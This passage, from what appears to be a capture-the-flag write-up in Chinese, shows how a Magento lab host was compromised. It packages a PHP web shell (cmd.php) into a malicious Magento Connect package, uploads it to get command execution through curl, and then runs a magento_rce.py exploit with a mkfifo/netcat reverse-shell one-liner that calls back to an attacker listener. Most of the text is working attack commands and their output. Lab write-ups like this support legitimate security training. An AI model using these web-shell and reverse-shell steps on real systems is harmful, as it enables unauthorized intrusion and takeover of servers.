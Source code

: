                     <file name="cmd.php" hash="c214a2fb80bab315fc328a5eff2892b5"/>
                </dir>
            </dir>
        </target>
    </contents>
    <compatible/>
    <dependencies>
        <required>
            <php>
                <min>5.2.0</min>
                <max>6.0.0</max>
            </php>
        </required>
    </dependencies>
    </package>
    

为 php 文件正确创建哈希非常重要，如下所示：

    root@kali# md5sum errors/cmd.php 
    c214a2fb80bab315fc328a5eff2892b5  errors/cmd.php
    

现在我用它来打包：`tar`

    root@kali# tar -czvf package.tgz errors/ package.xml 
    errors/
    errors/cmd.php
    package.xml
    root@kali# ls
    errors  package.tgz  package.xml
    

并上传文件，我通过网络外壳拥有RCE：`tgz`

    root@kali# curl http://10.10.10.140/errors/cmd.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### 壳

使用任何一个RCE，我都可以升级到合法的外壳：

    root@kali# python magento_rce.py 'http://10.10.10.140/index.php/admin' "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 9001 >/tmp/f"
    

    root@kali# nc -lnvp 9001
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::9001
    Ncat: Listening on 0.0.0.0:9001
    Ncat: Connection from 10.10.10.140.
    Ncat: Connection from 10.10.10.140:41828.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
